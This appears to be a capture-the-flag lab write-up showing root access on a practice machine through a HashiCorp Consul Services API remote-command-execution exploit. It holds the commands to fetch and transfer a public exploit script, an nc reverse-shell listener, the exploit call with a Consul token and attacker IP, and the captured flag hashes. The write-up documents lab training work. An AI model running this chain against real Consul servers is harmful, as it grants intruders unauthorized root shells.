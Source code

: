 GoogleFu:
- `consul exploit`
- We can see there may be some sort of RCE via the `Services API`.
	- `Hashicorp Consul Remote Command Execution via Services API`
	- There is a `metasploit` module here:
		- [[https://www.rapid7.com/db/modules/exploit/multi/misc/consul_service_exec/]]

GoogleFu:
- `consul RCE git`
- We find a convenient `python` script.
	- [[https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API]]
- Let's test it out.
- On Host:

```bash
cd ~/Downloads/temp
wget https://raw.githubusercontent.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API/main/exploit.py
mv exploit.py consul.py
python -m http.server
```
- On Victim (as developer):

```bash
wget http://10.10.16.34:8000/consul.py
chmod 700 consul.py
```
- On host:

```bash
On host:
nc -lvnp 4444
```
- On Victim (as developer):

```bash
python3 consul.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.16.34 --lport 4444 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```
- It informs us to check back on our host machine.
- Voila! Rooted!

```bash
cat /home/developer/user.txt

7a66916c1c5853a796dc6434ec0fcfdb

cat root.txt

4c10afa99c9067de2878f7f38ecd7dfa
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230119230345.png)

#hacking
